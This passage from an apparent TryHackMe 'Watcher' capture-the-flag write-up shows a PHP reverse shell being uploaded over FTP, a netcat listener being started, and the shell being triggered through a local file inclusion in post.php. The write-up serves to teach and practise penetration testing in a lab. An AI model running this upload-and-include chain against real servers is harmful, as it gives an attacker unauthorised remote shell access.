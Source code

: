```terminal
ftp> put rev.php                                                                                                                                        
local: rev.php remote: rev.php                                                                                                                     
229 Entering Extended Passive Mode (|||41911|)                                                                                                               
150 Ok to send data.                                                                                                                                         
100% |****************************************************************************************************************|  3651       23.84 MiB/s    00:00 ETA
226 Transfer complete.                                                                                                                                       
3651 bytes sent in 00:00 (15.91 KiB/s)                                                                                                                       
ftp> ls                                                                                                                                                      
229 Entering Extended Passive Mode (|||46255|)                                                                                                               
150 Here comes the directory listing.                                                                                                                        
-rw-r--r--    1 1001     1001         3651 Jan 13 10:57 rev.php                                                                                         
226 Directory send OK.                                                                                                                                       
ftp>
```

I couldn't upload it first in the root directory but i managed to upload it into **files** directory.

>Note : you should change the ip in the reverse shell before uploading it.

Now, we should set up a listener in our machine before navigating to the shell.
`nc -lnvp 1234`

According to the secret file we found in robots.txt:

![creds](/assets/img/tryhackme/watcher/creds.png)

The path to our reverse shell is `/home/ftpuser/ftp/files/`. So in order to execute the script, we need to navigate to `http://{target_IP}/post.php?post=/home/ftpuser/ftp/files/rev.php`

>Note : 'rev.php' is what i named my reverse shell file, yours might be different!!!

# **Foothold**

After setting up everything and navigating to our shell, we should get a reverse shell:
